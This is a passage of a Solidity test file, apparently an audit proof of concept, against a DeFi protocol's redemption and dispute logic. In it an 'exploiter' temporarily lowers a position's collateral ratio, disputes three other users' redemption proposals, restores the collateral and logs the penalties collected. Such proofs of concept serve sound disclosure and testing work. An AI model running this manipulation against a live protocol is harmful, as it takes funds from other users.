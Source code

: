 ```solidity
            STypes.ShortRecord memory shortRecord3 = diamond.getShortRecord(asset, randomSeller, 4);
            uint256 crOfSR1 = diamond.getCollateralRatio(asset, shortRecord1);
            uint256 crOfSR2 = diamond.getCollateralRatio(asset, shortRecord2);
            uint256 crOfSR3 = diamond.getCollateralRatio(asset, shortRecord3);
            console.log("CR of Random seller position 1", crOfSR1); // CR 1.37X
            console.log("CR of Random seller position 2", crOfSR2); // CR 1.39X
            console.log("CR of Random seller position 3", crOfSR3); // CR 1.41X
        }

        // 3. Redemption proposal is placed at the SR with lowest CR (exploiters large position) + all other postions below CR 2
        proposeRedemption(randomRedemptioner, DEFAULT_AMOUNT, randomSeller, 2);
        proposeRedemption(randomRedemptioner2, DEFAULT_AMOUNT, randomSeller, 3);
        proposeRedemption(randomRedemptioner3, DEFAULT_AMOUNT, randomSeller, 4);

        // Price of asset changes in short period of time
        _setETH(2000 ether);
        skip(3600);

        // 4. Shorter decreases CR of his Short Record position
        vm.prank(exploiter);
        diamond.decreaseCollateral(asset, 2, 9.5 ether);

        {
            STypes.ShortRecord memory shortRecord2 = diamond.getShortRecord(asset, exploiter, 2);
            uint256 crOfExploiterSmallPosition = diamond.getCollateralRatio(asset, shortRecord2);
            console.log("CR of exploiters position after price change", crOfExploiterSmallPosition); // CR 1.7X
        }

        // 4. Disputes his bigger position + all other positions (optional)
        STypes.AssetUser memory balanceBeforeDisputes = diamond.getAssetUserStruct(asset, exploiter);

        vm.prank(exploiter);
        diamond.disputeRedemption(asset, randomRedemptioner, 0, exploiter, 2); // disputes CR 1.37 with CR 1.7 position
        vm.prank(exploiter);
        diamond.disputeRedemption(asset, randomRedemptioner2, 0, exploiter, 2); // disputes CR 1.39 with CR 1.7 position
        vm.prank(exploiter);
        diamond.disputeRedemption(asset, randomRedemptioner3, 0, exploiter, 2); // disputes CR 1.41 with CR 1.7 position

        // 5. Increases CR of his small positon to healthy CR levels
        vm.prank(exploiter);
        diamond.increaseCollateral(asset, 2, 9.5 ether);

        STypes.AssetUser memory balanceAfterDisputes = diamond.getAssetUserStruct(asset, exploiter);

        // gets all erc penalties of all disputed redemptions
        console.log("balanceBeforeDisputes.ercEscrowed", balanceBeforeDisputes.ercEscrowed);
        console.log("balanceAfterDisputes.ercEscrowed", balanceAfterDisputes.ercEscrowed);
    }
}
```
